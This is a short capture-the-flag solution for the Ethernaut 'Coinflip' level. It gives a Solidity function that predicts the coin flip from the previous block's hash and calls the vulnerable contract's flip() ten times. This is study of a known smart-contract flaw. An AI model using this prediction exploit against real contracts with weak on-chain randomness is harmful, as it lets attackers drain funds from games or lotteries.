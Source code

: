 # Coinflip

The fact that multiple transactions can share the same block number and block hash made this hack possible.

## How to complete

```Solidity
function guess(address coinFlipInstance) external {
    uint256 blockValue = uint256(blockhash(block.number - 1));
    uint256 coinFlip = blockValue /
        57896044618658097711785492504343953926634992332820282019728792003956564819968;
    bool side = coinFlip == 1 ? true : false;

    CoinFlip(coinFlipInstance).flip(side);
}
```

Put the above function in a contract and call it 10 times (this is a little tedious but fulfilling the first time) passing in your instance address.

This function calculates the side of the coin using the same technique the instance contract does. And because the transaction of `flip(bool)` function call will also be in the same block as the transaction of the `guess(address)` call, they both will share the same `block.number`.

*NOTE* You will also need to import the CoinFlip contract in the contract you will create.
